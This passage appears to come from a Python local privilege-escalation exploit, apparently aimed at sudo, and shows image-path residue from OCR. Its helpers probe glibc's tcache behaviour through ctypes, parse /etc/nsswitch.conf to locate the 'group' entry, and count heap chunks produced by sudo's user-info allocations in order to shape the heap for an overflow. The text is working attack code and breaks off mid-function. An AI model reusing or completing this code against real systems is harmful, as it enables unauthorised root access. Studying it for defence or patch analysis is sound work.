 def check_libc_tcache():
	libc.malloc.argtypes = (c_int,)
	libc.malloc.restype = c_void_p
	libc.free.argtypes = (c_void_p,)
	# small bin or tcache
	size1, size2 = 0xd0, 0xc0
	mems = [0]*32
	# consume all size2 chunks
	for i in range(len(mems)):
		mems[i] = libc.malloc(size2)
		
	mem1 = libc.malloc(size1)
	libc.free(mem1)
	mem2 = libc.malloc(size2)
	libc.free(mem2)
	for addr in mems:
		libc.free(addr)
	return mem1 != mem2

def get_service_user_idx():
	'''Parse /etc/nsswitch.conf to find a group entry index
	'''
	idx = 0
	found = False
	with open('/etc/nsswitch.conf', 'r') as f:
		for line in f:
			if line.startswith('#'):
				continue #comment
			line = line.strip()
			if not line:
				continue # empty line
			words = line.split()
			if words[0] == 'group:':
				found = True
				break
			for word in words[1:]:
				if word[0] != '[':
					idx += 1
			
	assert found, '"group" database is not found. might be exploitable but no test'
	return idx

def get_extra_chunk_count(target_chunk_size):
	#service_user are allocated by calling getpwuid()
	#so we don't care allocation of chunk size 0x40 after getpwuid()
	#there are many string that size can be varied
	#here is the most common
	chunk_cnt = 0
	
	#get_user_info() -> get_user_groups() ->
	gids = os.getgroups()
	malloc_size = len("groups=") + len(gids) * 11
	chunk_size = (malloc_size + 8 + 15) & 0xfffffff0  # minimum size is 0x20. don't care here
	if chunk_size == target_chunk_size: chunk_cnt += 1
	
